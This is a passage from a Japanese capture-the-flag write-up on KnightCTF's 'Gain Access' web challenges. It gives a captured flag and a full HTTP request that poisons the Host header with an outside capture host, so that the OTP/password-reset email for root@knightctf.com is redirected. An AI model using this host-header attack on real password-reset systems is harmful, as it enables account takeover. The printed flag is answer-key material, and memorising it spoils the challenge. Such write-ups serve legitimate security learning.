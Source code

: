 ![Gain Access 2_04](./images/gainaccess2_04.jpg)

- Flag

```text
KCTF{AuTh_MIsC0nFigUraTi0N}
```

- 余談

MFAのコードでSQLインジェクションができるようでしたが、`/dashboard.php`で`Flag Vanished`と表示されました。

### Gain Access 3

445 points / 12 solves

問題文から、メールの送信先がログインアカウントのメールアドレスのみに変更されているようです。  
リセットメール送信以外は変わっていなそうです。  
（一部レスポンスにミス？があり、改行が一行多く入っているので調整が必要でした。一行削除+Content-Length: 4にする。）

[Gain Access 2](#gain-access-2)の方法ではメールが送信できなかったです。  
パスワードリセットでよくある脆弱性として、Hostヘッダを書き換えることでメール内のURLに反映させる方法があります。  
他に方法が思いつかなかったので、Hostヘッダを書き換えてOTPコード再生成リクエストを送ってみました。

```http
POST /process_resend_code.php HTTP/1.1
Host: enuebfjrrfzyh.x.pipedream.net
Content-Length: 30
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://66.228.53.87:6090
Referer: http://66.228.53.87:6090/resend_code.php
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=27b8ad5f329331603cf3f0620761a182
Connection: close

{"email":"root@knightctf.com"}
```
